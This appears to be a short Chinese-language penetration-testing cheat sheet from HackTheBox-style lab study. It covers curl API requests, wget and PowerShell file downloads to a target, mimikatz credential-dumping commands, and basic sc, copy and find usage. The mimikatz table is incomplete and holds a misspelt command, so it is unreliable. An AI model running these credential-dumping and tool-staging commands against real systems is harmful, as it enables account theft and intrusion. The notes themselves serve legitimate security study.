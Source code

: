 ``````
curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php	发送包含 JSON 数据的 POST 请求
curl http://<SERVER_IP>:<PORT>/api.php/city/london	阅读条目
curl -s http://<SERVER_IP>:<PORT>/api.php/city/ | jq	阅读所有条目
curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'	创建（添加）条目
curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'	更新（修改）条目
curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City	删除条目
``````
>参数

-X 选取请求方式[POST PUT GET]

### download

linux:
```
wget http://IP:PORT/FILES
```

windows:
```
Invoke-WebRequest -Uri "http://IP:PORT/FILES" -OutFile "C:\FILES"
```

### mimikatz

mimikatz使用需要提权到administrator。

命令| 描述
|-|-| 
privilege::debug |
sekurlsa::wdigest |
sekurlsa::USERNAEM |



### sc
windows  
``````
sc start 服务 （启动服务） 
sc stop 服务  （停止服务）
``````
### copy
windows  
``````
copy 文件 “路径”
将文件放到路径下
``````
### find

find [目录路径] -type f -name [文件名]
